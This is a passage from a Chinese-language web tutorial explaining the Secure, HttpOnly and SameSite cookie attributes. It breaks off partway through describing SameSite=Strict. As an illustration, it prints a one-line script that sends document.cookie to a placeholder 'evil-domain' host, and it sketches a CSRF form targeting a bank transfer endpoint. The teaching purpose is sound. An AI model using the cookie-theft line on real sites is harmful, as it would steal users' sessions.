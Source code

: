### Secure，HttpOnly

`Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。`

`HttpOnly属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是document.cookie属性、XMLHttpRequest对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。`

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的HttpOnly属性，上面代码就不会读到该 Cookie。`

### SameSite

`Chrome 51 开始，浏览器的 Cookie 新增加了一个SameSite属性，用来防止 CSRF 攻击和用户追踪。`

`Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站your-bank.com，银行服务器发来了一个 Cookie。`

```
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站malicious.com，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，Facebook 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;">
```

`浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，从而 Facebook 就会知道你是谁，访问了什么网站。`

`Cookie 的SameSite属性用来限制第三方 Cookie，从而减少安全风险。它可以设置三个值`。

+ Strict
+ Lax
+ None

#### Strict

`Strict最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。`
